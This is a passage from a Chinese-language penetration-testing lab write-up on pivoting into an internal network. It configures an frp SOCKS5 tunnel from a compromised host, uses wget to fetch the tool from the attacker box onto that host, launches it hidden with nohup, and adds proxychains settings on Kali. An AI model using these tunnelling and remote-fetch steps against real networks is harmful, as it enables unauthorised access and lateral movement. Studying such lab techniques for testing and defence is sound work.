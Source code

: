 [![](assets/1708094050-cc69ed1a439f94c12bb3340620710166.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145333-569d80d6-1000-1.png)  
客户端（client）ubuntu-web2(192.168.52.20)  
会将客户端中所有的流量通过本地的一个随机端口转发给 vps 的 7000 端口，我们访问 vps 的 7777 端口就相当于访问客户端的 7000 端口

```bash
frpc.ini

[common]
server_addr = 192.168.52.10
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5

上传 frp
tar czvf 1.tgz frp_0.49.0_linux_amd64       # 压缩 frp(192.168.52.10 终端)
python3 -m http.server  (192.168.52.10 终端)
wget http://192.168.52.10:8000/1.tgz;tar -zxvf 1.tgz    (192.168.52.20 终端)
启动
chmod +777 frpc
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
```

[![](assets/1708094050-5acac170685bc618da54a01580f9b075.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145356-6452551c-1000-1.png)

kali 本地添加 proxy 配置

```bash
vim /etc/proxychains4.conf 
socks5 192.168.1.128 7777
socks5 192.168.52.10 7777
```
